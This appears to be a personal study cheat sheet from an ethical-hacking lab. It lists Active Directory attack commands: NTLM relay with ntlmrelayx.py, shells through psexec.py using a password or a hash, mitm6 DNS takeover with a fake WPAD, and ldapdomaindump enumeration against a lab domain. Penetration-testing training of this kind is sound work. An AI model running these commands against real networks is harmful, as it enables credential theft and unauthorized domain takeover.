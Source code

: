 #### Impacket
[[Notes_ETH#Update/install Impacket]]

#### ntlmrelayx.py
Impacket’s ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols.
`ntlmrelayx.py -tf targets.txt -sm2support` 
`-tf` -->  target file
`targets.txt` -->  contains victim IP

`ntlmrelayx.py -tf targets.txt -sm2support -i`
`-i` -->  interactive mode

`ntlmrelayx.py -tf targets.txt -sm2support -c "whoami"
`-c "command"` -->  execute a command

#### psexec.py
tools for obtaining an interactive shell on windows host
`sudo psexec.py MARVEL/fcastle:'Password1'@172.16.214.130`        DOMAIN/user:'password'@ip

can connect even with an hash:
`sudo psexec.py administrator@172.16.214.130 -hashes hash`

if psexec is not working:
=> you can try to use:
`wmiexec.py`
`smbexec.py`

#### mitm6
mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As DNS server, mitm6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server.

first set up [[cheat#ntlmrelayx.py|ntlmrelayx.py]]:
`ntlmrelayx.py -6 -t ldaps://172.16.214.128 -wh fakewpad.marvel.local -l lootme_folder`
`-6` --> ipv6
`-t` -->  target  (Domain Controller)
`-wh` --> set up a fake wpad 
`-l` -->  create a folder where it saves all the information found

set up mitm6
`sudo mitm6 -d marvel.local`
`-d` -->  domain

now we need an event occur in the network:
for example -->      - reboot THEPUNISHER
                - login inside THEPUNISHER as MARVEL\administrator 

#### ldapdomaindump
tools for active directory enumeration
you need to have an account to gather some information
`mkdir directory_for_saving_information`
`sudo ldapdomaindump ldaps://172.16.214.128 -u 'MARVEL\fcastle' -p Password1 -o directory_for_saving_information`
172.16.214.128 -->  domain controller IP
-u -->  user
-p -->  password
-o -->  directory for saving the information
